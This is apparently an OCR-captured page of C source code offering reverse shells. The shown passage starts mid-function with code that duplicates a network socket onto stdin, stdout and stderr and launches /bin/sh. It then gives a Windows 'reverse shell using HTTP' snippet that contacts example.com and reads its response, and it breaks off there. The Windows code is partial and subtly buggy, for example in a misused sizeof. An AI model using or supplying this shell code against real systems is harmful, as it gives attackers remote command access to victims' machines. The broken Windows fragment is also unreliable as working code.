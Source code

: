 ```c
    if (dup2(sockfd, STDIN_FILENO) < 0) {
        perror("ERROR on duplicating stdin");
        return 1;
    }

    if (dup2(sockfd, STDOUT_FILENO) < 0) {
        perror("ERROR on duplicating stdout");
        return 1;
    }

    if (dup2(sockfd, STDERR_FILENO) < 0) {
        perror("ERROR on duplicating stderr");
        return 1;
    }

    close(sockfd);

    char *executable = "/bin/sh";
    char **argv = NULL;

    if (execve(executable, argv, NULL) < 0) {
        perror("ERROR executing shell");
        return 1;
    }

    return 0;
}
```



### Reverse shell on windows (using HTTP)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wininet.h>
#pragma comment(lib, "wininet")

char* WINDOWS_SHELL = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe";
char* ARGUMENT = "-Command $env:COMPUTERNAME; $cmd = 'Get-Content env:computername'; $cmd";

int main() {
    HINTERNET hInternet = InternetOpenA("WinHTTP", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);
    if (hInternet == NULL) {
        printf("Error: Failed to open internet connection.\n");
        return -1;
    }

    HINTERNET hHttpRequest = InternetOpenUrlA(hInternet, "http://example.com/", NULL, 0,
INTERNET_FLAG_RELOAD, 0);
    if (hHttpRequest == NULL) {
        printf("Error: Failed to open HTTP connection.\n");
        return -1;
    }

    char* output = (char*)malloc(sizeof(char) * 512);
    DWORD bytes_read;

    if (!InternetReadFile(hHttpRequest, output, sizeof(output), &bytes_read)) {
        printf("Error: Failed to read HTTP response.\n");
        return -1;
    }
```